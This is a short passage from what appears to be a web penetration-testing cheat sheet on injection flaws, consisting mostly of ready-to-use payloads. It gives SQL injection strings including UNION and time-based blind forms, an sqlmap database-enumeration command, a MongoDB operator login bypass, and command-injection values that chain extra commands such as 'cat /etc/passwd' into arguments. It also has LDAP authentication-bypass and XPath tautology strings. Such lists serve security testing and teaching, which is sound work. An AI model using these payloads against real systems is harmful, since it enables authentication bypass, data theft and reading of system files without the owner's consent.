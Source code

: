 **3. Injection Vulnerabilities**

**SQL Injection:**
```bash
# Manual testing
https://example.com/product?id=1' OR '1'='1
https://example.com/search?q=test' UNION SELECT NULL--
https://example.com/user?id=1' AND SLEEP(5)--

# SQLMap (with permission)
sqlmap -u "https://example.com/product?id=1" --batch --dbs

# Time-based blind
https://example.com/search?q=test' AND IF(1=1,SLEEP(5),0)--
```

**NoSQL Injection:**
```json
# MongoDB injection example
POST /login HTTP/1.1
Content-Type: application/json

{"username": {"$ne": null}, "password": {"$ne": null}}

# Check for:
$where, $regex, $gt, $lt, $ne operators
```

**Command Injection:**
```bash
# Common injection points
ping -c 1 127.0.0.1; whoami
file.txt; ls -la
file.txt && cat /etc/passwd
file.txt | whoami
file.txt `whoami`
file.txt $(whoami)

# Blind command injection (time-based)
ping -c 10 127.0.0.1
sleep 10
```

**LDAP Injection:**
```
# Bypass authentication
user=*)(uid=*))(|(uid=*
password=anything

# Extract data
*)(objectClass=*
```

**XPath Injection:**
```
' or '1'='1
' or 1=1 or 'a'='a
```
